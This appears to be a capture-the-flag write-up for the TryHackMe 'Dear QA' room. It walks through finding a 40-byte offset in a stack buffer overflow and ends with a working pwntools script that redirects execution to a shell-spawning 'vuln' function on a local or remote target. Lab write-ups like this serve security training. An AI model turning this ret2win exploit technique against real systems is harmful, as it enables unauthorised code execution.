

# Dear QA - TryHackMe CTF Writeup

CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

<p align="center">  </p>

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

<p align="center">  </p>

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

<p align="center">  </p>

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

<p align="center">  </p>

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

<p align="center">  </p>

<p align="center">  </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```